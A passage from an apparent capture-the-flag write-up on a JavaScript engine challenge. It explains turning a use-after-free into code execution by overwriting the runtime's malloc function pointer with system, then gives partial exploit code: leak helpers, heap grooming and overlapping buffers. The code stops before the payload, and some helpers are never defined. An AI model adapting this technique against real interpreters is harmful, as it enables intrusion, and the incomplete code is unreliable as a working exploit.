 ### Getting RCE:

There are many ways to get an RCE from this point but the easiest way I found reading [this](https://maplebacon.org/2024/05/sdctf-slowjspp/) blogpost was overwriting the `ctx->rt->mf->js_malloc` to `system` then overwriting the `ctx->rt->malloc_state` with `readflag`. 

```c
void *js_malloc_rt(JSRuntime *rt, size_t size)
{
    return rt->mf.js_malloc(&rt->malloc_state, size);
}
``` 

## Full Exploit:

```js
function d2u(v) {
    f64[0] = v;
    return u32;
}
function u2d(lo, hi) {
    u32[0] = lo;
    u32[1] = hi;
    return f64[0];
}
function hex(val) {
    return '0x' + val.toString(16);
}
function leak(obj){
    return console.log(leakAddress(obj));
}

const read_dword = (offset) => {
    let result = 0;
    for (let i = 3; i >= 0; i--) {
        result = (result << 8) | str.charCodeAt(offset + i);
    }
    return result;
};

// ACTUAL EXPLOIT CODE

// Creating a few filler objects for other misc allocations
let a = 1;
let dummy = new ArrayBuffer(0x48);

// Getting Leaks to leverage the UAF
let str = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ";
let uaf = [str];

uaf.randompick();
uaf.randompick();
uaf.randompick();
uaf.randompick();

uaf[0] = dummy;
uaf.randompick();
uaf.randompick();
uaf.randompick();   

let dummy2 = new ArrayBuffer(0x500);
let overlap1 = new Uint32Array(16);
Math.min(overlap1);

```